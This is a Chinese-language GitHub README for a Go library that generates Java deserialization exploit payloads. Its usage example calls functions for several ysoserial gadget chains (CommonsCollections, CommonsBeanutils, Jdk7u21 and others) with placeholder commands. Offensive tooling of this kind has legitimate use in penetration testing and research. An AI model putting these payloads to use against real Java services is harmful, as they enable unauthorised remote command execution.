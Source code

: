 ![](https://socialify.git.ci/nu1r/GlangYsoserial/image?font=Inter&language=1&logo=https%3A%2F%2Fs1.ax1x.com%2F2022%2F09%2F12%2FvXqOUI.jpg&name=1&owner=1&pattern=Circuit%20Board&theme=Light)

当用GO写JAVA反序列化EXP的时候, 每次都要重写生成,调用不方便时, 可以使用本库

使用方法示例
```go
package main

import (
	"encoding/hex"
	"fmt"

	"github.com/nu1r/GlangYsoserial"
)

func main() {
	fmt.Println(hex.Dump(GlangYsoserial.URLDNS("example domain")))
	fmt.Println(hex.Dump(GlangYsoserial.CommonsBeanutils1([]byte("example bytes"))))
	fmt.Println(hex.Dump(GlangYsoserial.CommonsCollections1("example command")))
	fmt.Println(hex.Dump(GlangYsoserial.CommonsCollections2([]byte("example bytes"))))
	fmt.Println(hex.Dump(GlangYsoserial.CommonsCollections3([]byte("example bytes"))))
	fmt.Println(hex.Dump(GlangYsoserial.CommonsCollections4([]byte("example bytes"))))
	fmt.Println(hex.Dump(GlangYsoserial.CommonsCollections5("example command")))
	fmt.Println(hex.Dump(GlangYsoserial.CommonsCollections6("example command")))
	fmt.Println(hex.Dump(GlangYsoserial.CommonsCollections7("example command")))
	fmt.Println(hex.Dump(GlangYsoserial.CommonsCollections8([]byte("example bytes"))))
	fmt.Println(hex.Dump(GlangYsoserial.CommonsCollections9("example command")))
	fmt.Println(hex.Dump(GlangYsoserial.Jdk7u21([]byte("example bytes"))))
	fmt.Println(hex.Dump(GlangYsoserial.Jdk8u20([]byte("example bytes"))))
}

```

- TODO:
  - 1、补链子
  - 2、把TemplatesImpl类的调用简化